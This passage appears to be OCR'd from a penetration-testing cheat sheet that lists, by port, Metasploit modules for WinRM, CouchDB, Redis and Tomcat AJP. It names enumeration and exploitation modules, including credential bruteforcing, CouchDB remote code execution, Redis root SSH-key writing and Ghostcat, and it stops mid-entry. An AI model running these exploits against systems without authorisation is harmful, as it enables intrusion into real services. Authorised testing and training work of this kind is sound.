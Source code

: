 Purpose: Bruteforces credentials for PowerShell remoting.

*   **Exploit #2 (Script Execution):**

```
use exploit/windows/winrm/winrm_script_exec
```

Purpose: Uploads and executes a payload using valid WinRM credentials.
___
## Port 5984 - Apache CouchDB

**Common Service:** CouchDB NoSQL Database

*   **Auxiliary #1 (Enumeration):**

```
use auxiliary/scanner/couchdb/couchdb_enum
```

Purpose: Gathers version and database information.

*   **Exploit #2 (RCE - CVE-2017-12635):**

```
use exploit/linux/http/apache_couchdb_cmd_exec
```

Purpose: Creates an admin user and gains RCE via the Erlang protocol.
___
## Port 6379 - Redis

**Common Service:** Redis In-Memory Data Store

*   **Auxiliary #1 (Information Gathering):**

```
use auxiliary/scanner/redis/redis_server
```

Purpose: Checks if authentication is required and gathers info.

*   **Exploit #2 (SSH Key Write):**

```
use exploit/linux/redis/redis_unauthorized_exec
```

Purpose: Writes an SSH key for root access if no authentication is present.
___
## Port 8009 - Apache JServ Protocol (AJP)

**Common Service:** AJP Connector (Tomcat)

*   **Auxiliary/Exploit #1 (Ghostcat - CVE-2020-1938):**

```
use auxiliary/admin/http/tomcat_ghostcat
```
